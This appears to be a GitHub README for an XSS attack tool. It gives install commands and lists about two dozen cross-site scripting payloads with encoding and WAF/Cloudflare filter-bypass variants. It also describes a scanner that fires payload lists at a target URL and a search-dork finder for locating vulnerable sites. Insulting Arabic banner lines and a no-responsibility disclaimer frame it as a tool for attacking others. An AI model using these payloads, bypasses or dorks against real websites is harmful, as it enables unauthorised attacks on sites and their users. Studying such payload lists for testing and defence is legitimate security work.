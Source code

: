 # XSS-Damn-you-Khalil-Djaariri

# تبا لكم ايها الاغبياء تبا لكم جميعا حمقى 

# غبي تتحدى المافيا استمتع بي سكربت الزعيم تبا لي اعدارك جميعا

# Note! : We don't Accept any responsibility for any illegal usage.

# cd Installation cd

git clone https://github.com/FSOCIETY-coder-dz/XSS-FSOCIETY.git

cd XSS-FSOCIETY

pip3 install -r requirements.txt

python3 payloader.py

card_file_box Features card_file_box

*Basic Payload

Sets default parameter to :<script>alert(1)</script>
*Div Payload

Sets default parameter to :<div onpointerover='alert(1)'>MOVE HERE</div
*Img Payload

Sets default parameter to :<img src=x onerror=alert('1');>
*Body Payload

Sets default parameter to :<body ontouchstart=alert(1)>
*Svg Payload

Sets default parameter to :<svg onload=alert('1')>
*Enter Your Payload

Encodes payload writed by user
*Payload Generator Parameter

Encodes payload on selected tag

* |   1.  UPPER CASE---->  <SCRIPT>ALERT(1)</SCRIPT>              
* |   2.  UPPER AND LOWER CASE----> <ScRiPt>aleRt(1)</ScRiPt>   
* |   3.  URL ENCODE ----->   %3Cscript%3Ealert%281%29%3C%2Fscript%3E           
* |   4.  HTML ENTITY ENCODE----->  &lt;script&gt;alert(1)&lt;/script&gt; 
* |   5.  SPLIT PAYLOAD ----->  <scri</script>pt>>alert(1)</scri</script>pt>>       
* |   6.  HEX ENCODE ----->  3c7363726970743e616c6572742831293c2f7363726970743e       
* |   7.  UTF-16 ENCODE -----> Encode payload to utf-16 format.   
* |   8.  UTF-32 ENCODE----->  Encode payload to utf-32 format.          
* |   9.  DELETE TAG -----> ";alert('XSS');//            
* |  10.  UNICODE ENCODE----->    %uff1cscript%uff1ealert(1)%uff1c/script%uff1e         
* |  11.  US-ASCII ENCODE ----->  ¼script¾alert(1)¼/script¾      
* |  12.  BASE64 ENCODE ----->   PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==          
* |  13.  UTF-7 ENCODE ----->   +ADw-script+AD4-alert(1)+ADw-/script+AD4-           
* |  14.  PARENTHESIS BYPASS ----->  <script>alert`1`</script>   
* |  15.  UTF-8 ENCODE ----->  %C0%BCscript%C0%BEalert%CA%B91)%C0%BC/script%C0%BE          
* |  16.  TAG BLOCK BREAKOUT-----> "><script>alert(1)</script>
* |  17.  SCRIPT BREAKOUT----->  </script><script>alert(1)</script>
* |  18.  FILE UPLOAD PAYLOAD-----> "><script>alert(1)</script>.gif
* |  19.  INSIDE COMMENTS BYPASS-----> <!--><script>alert(1)</script>-->
* |  20.  MUTATION PAYLOAD-----> <noscript><p title="</noscript><script>alert(1)</script>">
* |  21.  MALFORMED IMG-----> <IMG """><script>alert(1)</script>">
* |  22.  SPACE BYPASS-----> <img^Lsrc=x^Lonerror=alert('1');>
* |  23.  DOWNLEVEL-HIDDEN BLOCK-----> <!--[if gte IE 4]><script>alert(1)</script><![endif]-->
* |  24.  WAF BYPASS PAYLOADS-----> Show Waf Bypass Payload List
* |  25.  CLOUDFLARE BYPASS PAYLOADS-----> Show Cloudflare Bypass Payload List
* |  26.  POLYGLOT PAYLOADS-----> Show Polyglot Bypass Payload List
* |  27.  ALERT PAYLOADS-----> Show Alert Payload List
* |  28.  ALL CREATE PAYLOAD-----> Show Create All Payloads
* |  29.  GO BACK MAIN MENU
* |  30.  EXIT

*Xss Scanner

Initially you'll need to enter url of target Please enter the url like this example==>e.g target -----> http://target.com/index.php?name= Selected for scanning payload list

    BASIC PAYLOAD LIST ==> Payload list consisting of script tag
    DIV PAYLOAD LIST ==> Payload list consisting of div tag
    IMG PAYLOAD LIST ==> Payload list consisting of img tag
    BODY PAYLOAD LIST ==> Payload list consisting of body tag
    SVG PAYLOAD LIST ==> Payload list consisting of svg tag
    MIXED PAYLOAD LIST ==> Payload list consisting of all tag
    ENTER FILE PATH ==> Payload list determined by the user ,Please enter the url like this example..! (e.g. path -----> /usr/share/wordlists/wfuzz/Injections/XSS.txt)

Results will be added in "vulnpayload.txt" after scanning.
*Xss Dork Finder

First enter the dork for searching: e.g---->inurl:"search.php?q=" Results will be saved in "dork.txt" after scanning.
Known Issues
Fixed:

    Unicode errors

    Module errors

Important:

If you want to use tool for python3 installed on Windows download below link:
https://github.com/PHOENIX7713/XSS-PHOENIX.git
Bugs and enhancements

For bug reports or enhancements, please open an issue here.
Support and Donations

Contact us with email oanonymous85@gmail.com.com.tr

Copyright 2020
